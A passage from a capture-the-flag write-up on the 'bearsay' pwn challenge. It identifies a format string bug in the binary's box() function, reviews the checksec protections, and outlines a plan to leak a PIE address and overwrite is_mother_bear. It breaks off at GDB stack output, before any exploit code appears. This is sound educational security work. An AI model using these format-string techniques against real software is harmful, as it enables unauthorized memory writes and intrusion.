```c
    }
```

if we give "flag" as the input the program will open `./flag.txt` and print it out, provided `is_mother_bear` = 0xbad0bad. The only problem is, `is_mother_bear` is explicitly defined as 0 and moreover it is never changed throughout the entire execution.

### Vulnerability

Honestly I did not reverse engineer the entire program and couldn't find the vulnerability in the first attempt and almost gave up. 

Luckily my teammate [makider](https://makider.me/) did not give up and tested the program for format string vulnerability, and it turns out, that was the intented bug. So I took the efforts and saw the `box()` function again and found that it was hiding between several `putchar()` calls:

```c
  putchar(0x20);
  printf(param_4); // <- vulnerability
  putchar(0x20);
  putchar((int)param_1);
  putchar(10);
```

Format string vulnerabilities are super helpful because they allow both arbitrary read and arbitrary write.

### Exploit

From now the plan is straightforward, use fmt vuln to write 0xbad0bad to `is_mother_bear`, but if you look at the protections:

```console
$ checksec chal
[*] '/home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./lib'
```

`PIE` is enabled, which means the memory address of `is_mother_bear` will be randomized on every execution.

This is not a problem for us since we can utilise the fmt vuln to get a binary leak and use that leak to calculate the actual address of `is_mother_bear` at runtime since the interal offsets won't be changing.

If you set a breakpoint in GDB just before the `printf(foo)` call and look at the stack, here is how it will look:

```
pwndbg> b * box +188
Breakpoint 1 at 0x131b
pwndbg> r
Starting program: /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal
🧸 say: AAAABBBB
************
*
Breakpoint 1, 0x000055555555531b in box ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
...
pwndbg> stack 50
00:0000│ rsp 0x7fffffffb9b0 ◂— 0x0
01:0008│-038 0x7fffffffb9b8 —▸ 0x7fffffffba30 ◂— 'AAAABBBB'
02:0010│-030 0x7fffffffb9c0 ◂— 0xf7ffd040
```